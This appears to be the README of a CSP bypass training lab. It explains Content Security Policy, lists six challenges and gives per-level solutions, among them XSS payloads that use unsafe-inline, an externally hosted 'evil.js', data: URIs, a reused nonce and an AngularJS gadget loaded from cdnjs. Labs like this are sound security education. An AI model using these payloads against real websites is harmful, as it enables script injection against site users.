 # CSP Bypass Lab
Bypass project of CSP security standard, which is a protection method for XSS vulnerability. 
This project contains sample test cases for bypassing incorrectly&incompletely configured CSP headers. 

## What is CSP
Content Security Policy is a computer security standard that was introduced to prevent cross-site scripting, click-through, and other code injection attacks resulting from the execution of malicious content in the context of a trusted web page. 

## Challenges
- unsafe-inline
- External Resource
- data directive
- src nonce
- Common uses JS CDN
- Google Callback Functions

## Solutions
Check https://csp-evaluator.withgoogle.com before solutions.

#### Level 1
As a result of the 'unsafe-inline' directive used, if the input entered contains a script tag, the javascript is triggered. Example payload 

```sh
<script>alert(1)</script>
```

#### Level 2
JS codes from yourjavascript.com, which is an external resource, will be allowed. It is triggered by malicious JS code. Go to yourjavascript.com , create malicious code and upload.

```sh
<script type="text/javascript" src="http://yourjavascript.com/0513280132/evil.js"></script>
```

#### Level 3
data: URI in script-src allows the execution of unsafe scripts.

```sh
<script src=data:text/javascript,alert(1337)></script>
```

### Level 4
We see the base64 encode form of current time's as the nonce value in response as the CSP rule. Example payload

```sh
<script nonce="MjcuMDMuMjAyMS8yMjoxNw==">alert(1)</script>
```

### Level 5
One of the most used JavaScript CDNs is cdnjs.cloudflare.com. At this level, we will try to trigger XSS on a page that has Cloudflare allowed CDN resources.

```sh
<Script Src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.0/angular.min.js> </Script><K Ng-App>{{$new.constructor('alert(1)')()}}
```

### Level 6
Same as the previous level, here you can use callback functions.

### Level 7
Given this CSP header:
Content-Security-Policy: frame-src https://example.com
The following <iframe> is blocked and won't load:
  
```sh
<iframe src="https://not-example.com/"></iframe>
```

Call the allowed page in Frame.

##### Useful Resources
- https://brutelogic.com.br/blog/csp-bypass-guidelines/
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy
